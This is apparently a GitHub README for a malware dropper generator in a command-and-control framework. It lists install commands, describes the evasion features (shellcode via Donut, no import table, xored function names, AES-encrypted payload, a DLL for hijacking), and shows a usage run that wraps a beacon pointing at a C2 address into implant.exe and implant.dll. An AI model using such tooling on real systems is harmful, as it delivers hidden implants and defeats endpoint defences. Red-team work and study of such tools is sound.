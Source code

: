 # GenerateDropperBinary

This project is part of the [Exploration C2 Framework](https://github.com/maxDcb/C2TeamServer)

sudo apt install gcc-mingw-w64  
sudo apt install g++-mingw-w64  
pip3 install pycryptodome  

Generate a dropper for any DLL or EXE. The shellcode of the payload is generated with [Donut](https://github.com/TheWover/donut). The dropper is compile with the generated shellcode (credit to sektor7). The exe resulting has no import table, every function name are xored and the payload is AES encrypted. A dll is also generated with a "go" exported function (rundll32 implant,go), this dll could be use for dll hijacking.

``` bash                                                                                                                                             
python3 PeDropper.py -b ./BeaconHttp.exe -a "10.10.10.10 8443 https" 
[+] Generate dropper for params:
binary  .//BeaconHttp.exe
binaryArgs  10.10.10.10 8443 https

[+] Generate shellcode of payload with donut
    ...

[+] Compile dropper with shellcode

[+] Done
./bin/implant.exe
./bin/implant.dll
```

![alt text](https://github.com/maxDcb/PeDropper/blob/master/ressources/image1.png?raw=true)